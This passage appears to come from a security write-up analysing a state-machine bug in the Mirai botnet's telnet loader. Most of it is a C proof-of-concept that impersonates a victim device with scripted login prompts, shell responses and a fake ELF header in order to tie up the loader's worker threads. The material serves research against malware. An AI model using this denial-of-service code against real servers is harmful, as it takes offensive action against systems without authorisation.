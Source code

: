 If `TOKEN_RESPONSE` is not found in `conn->rdbuf`, `util_memsearch()` returns `-1`, and the first `if` branch is not taken. In that case, `connection_consume_arch()` returns `0`, leaving the state machine in the ``TELNET_DETECT_ARCH` state. Unless our bot stops sending packets to the server, the server is stuck in the state. The sequence below shows how to exploit the bug:

```c
int bot_from_hell(int fd, uint8_t *pBuf, size_t bufsize, int flags)
{
    static uint8_t idx = 0;

    struct bot_from_hell_msg_t
    {
        char *msg;
        size_t len;
    };

    #define STR_WITH_LEN(S) {S, strlen(S)}

    static struct bot_from_hell_msg_t msgs[] = 
    {
        STR_WITH_LEN("\xff\xff\xfflogin:"),
        STR_WITH_LEN("password:"),
        STR_WITH_LEN(":)>"), // prompt after login
        STR_WITH_LEN("(:>"), // promt after mirai opened a shell :)
        STR_WITH_LEN(TOKEN_RESPONSE), // after busybox call
        STR_WITH_LEN("arbitrary_ps_output 42" TOKEN_RESPONSE), // mirai looks for other bots in the victim machine
        STR_WITH_LEN("\n/your_rw_folder /dev/null someopt rw\n" TOKEN_RESPONSE), // give mirai a folder to write to :)
        STR_WITH_LEN("whatever " VERIFY_STRING_CHECK " foo " TOKEN_RESPONSE),   // and it was successful, ofc 
        STR_WITH_LEN("yes, cp works" TOKEN_RESPONSE),  // cp also works
        // fake ELF header, porviding X86_64 Little Endian architecture
        {"\x7f" "ELF" "\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x3e\x00\x01\x00\x00\x00", 24},
        STR_WITH_LEN("gotcha :)") // sending e.g. this string at least once all 10 secs will keep one worker thread busy
    };

    size_t bytesFromBot = msgs[idx].len;
    memcpy(pBuf, msgs[idx].msg, bytesFromBot);
    idx++;

    if (idx > 10)
    {
        idx = 10;
    }
    return bytesFromBot;
}
```


